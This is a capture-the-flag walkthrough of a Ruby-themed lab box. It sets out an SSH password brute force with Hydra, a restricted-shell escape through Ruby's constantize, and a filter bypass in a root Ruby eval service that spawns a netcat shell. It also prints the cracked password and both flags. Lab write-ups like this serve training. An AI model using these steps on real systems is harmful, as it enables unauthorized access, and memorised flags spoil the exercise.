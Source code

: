 > Red Stone Once Carat | Ruby

Start with SSH bruteforce on user noraj.

# Nmap

nmap -sC -sV -T4 -A -vv -Pn $IP -oN nmap/initial

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:e7:f2:f6:74:65:a6:dd:f2:94:cd:45:fd:f3:2b:2a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHVsUg1GJYLWn/T/EkTfAMV4tdmLEiJvPP4cCCbx7hFt3ma0FAQpMMAoXFP12+hePBYXwJfMv1epkGg0+ur9VZRSfudeSjfR+pVuPE+LjuKU8v02Fo3Wi9xkV2rOuqGkXz09xxI34OwWka/JXFYe/MEXNWCMlSYtWUx+kiOQLG83x7t9rPxXuJ4KBsCnFRm2tEgoW0M3L/PX/97bLRu/A2clOnmyPsL1kwU4MBN3UZkQJCptM+EkqQqo8NMOlw3Sa6JnpGImHdSMBrGUoFo6yL+3i+KMR3foIVbW8WtTY+EKfaDt0e5MAhT1YLgZHdkR58Dh0kPoVRk59iw2divYll
|   256 34:a3:16:aa:b3:1f:83:ac:91:a3:31:b4:45:94:3c:c9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJf9gbS/xBNED4k9vQscQ6Xi4VMzkK2MuFW0YJs5OQ854rlmaELtcwjEIZ9o+2SOVXwx8vH101rlIFQC0pISFP0=
|   256 75:23:c0:66:c7:2c:6e:12:0a:f7:04:61:2b:c6:12:62 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ7ai11Zz/i/bAw8SQG0aBJfcYjdIiQQiAXhV8/9b3km
```

**Hint: The password contains "bu".**

Let's extract those passwords from rockyou.txt

# Cracking password using Hydra

hydra -l noraj -P passwords.txt ssh://$IP

```bash
[22][ssh] host: 10.10.166.33   login: noraj   password: cheeseburger
```

We are in as noraj but can't execute any commands. Let's see waht shell do we have.

```bash
echo $PATH
/home/noraj/bin
echo $SHELL
/bin/rzsh
```

So we have a restricted shell `rzsh`. Also we don't have `/bin`, `/usr/bin` or `/bin` in our path and we can't change the path too. We can't use ls but we can use echo.

```bash
echo *          
bin user.txt
echo bin/*          
bin/rzsh bin/test.rb
```

Looks like we can run `test.rb` and on running it we got the code.

test.rb

```ruby
#!/usr/bin/ruby

require 'rails'

if ARGV.size == 3
    klass = ARGV[0].constantize
    obj = klass.send(ARGV[1].to_sym, ARGV[2])
else
    puts File.read(__FILE__)
end
```

Constantize method converts strings to Ruby objects which we can abuse to execeute commands or read files etc.
The above code requires args class, class method and argument. Let's try reading user.txt using class `File`, class method `Read()` and argument `/home/noraj/user.txt`.

test.rb File read '/home/noraj/user.txt' => But it didn't work for me. 

So I was trying to stabilise the shell and came across a NullByte Article of escaping restricted shells. For ruby `exec /bin/sh`. Since we are running zsh we can use `exec /bin/zsh`

test.rb Kernel exec '/bin/zsh'

Let's set the path to run commands. We can use ls but no cat, tac or head. Let's use ruby here.

```ruby
irb
irb(main):001:0> File.read('user.txt')
=> "THM{3a106092635945849a0fbf7bac92409d}"
```

We got a hidden .txt file too called `.hint.txt`

```ruby
irb(main):001:0> File.read('.hint.txt')
=> "Maybe take a look at local services."
```

We can't use both ss or netstat. We have a mini version of `ss -ta` in git. And let's b64 it and transfer it to the box.

```bash
(local)cat ss.rb | base64 -w 0
<BASE64 ENCODED STRING>
(remote)printf %s 'encoded_String' | base64 -d > /tmp/ss.rb
(remote)ruby /tmp/ss.rb

local address         remote address        state       username (uid)
127.0.0.53:53         0.0.0.0:0             LISTEN      systemd-resolve (101)
0.0.0.0:22            0.0.0.0:0             LISTEN      root (0)
127.0.0.1:31547       0.0.0.0:0             LISTEN      root (0) => This one looks promising
10.10.166.33:22       10.8.107.21:49494     ESTABLISHED root (0)
```

Let's examine port 31547.

nc 127.0.0.1 31547

And we got a shell. Wait not a shell we can't execute commands. Looks like it is Ruby pseudo eval shell. Let's try to read passwd file.

```bash
File.read('/etc/passwd')
Forbidden character
```

Looks like some characters are forbidden. We can use %x and curly braces {} rather than normal () or square braces []. Also we can replace 127.0.0.1 that is using dots but localhost. 

# Steps

1. Open up another SSH session
2. In Psuedo shell use `%x{nc -e /bin/zsh localhost 8888}`
3. In the 2nd ssh session use `nc -nlp 8888`. Now we got shell as root. 
4. Export path to execute commands. `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`

# root.txt

```
THM{58e53d1324eef6265fdb97b08ed9aadf}
```
